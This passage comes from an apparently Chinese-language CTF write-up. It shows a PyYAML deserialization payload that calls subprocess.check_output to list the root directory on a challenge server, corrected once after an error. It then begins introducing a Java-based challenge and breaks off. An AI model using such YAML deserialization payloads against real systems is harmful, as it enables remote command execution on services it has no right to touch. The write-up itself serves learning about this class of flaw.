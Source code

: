 
6. 进一步利用：
    ```python
    !!python/object/new:subprocess.check_output [["ls /"]]
    ```

    发现报错，然后去文档查了一下 `subprocess.check_output` 函数的格式，修改：
    ```python
    !!python/object/new:subprocess.check_output [["ls", "/"]]
    ```

    ![image-20240923172314435](TSCTF_J/image-20240923172314435.png)
    拿下。

## 7. flag拿没拿？如拿！

最让我可惜的一道题 QAQ

### 7.1 题目详解

1. 给了 Java 的 Jar 包。
2. 前端页面 1：
    ![image-20240923172520745](TSCTF_J/image-20240923172520745.png)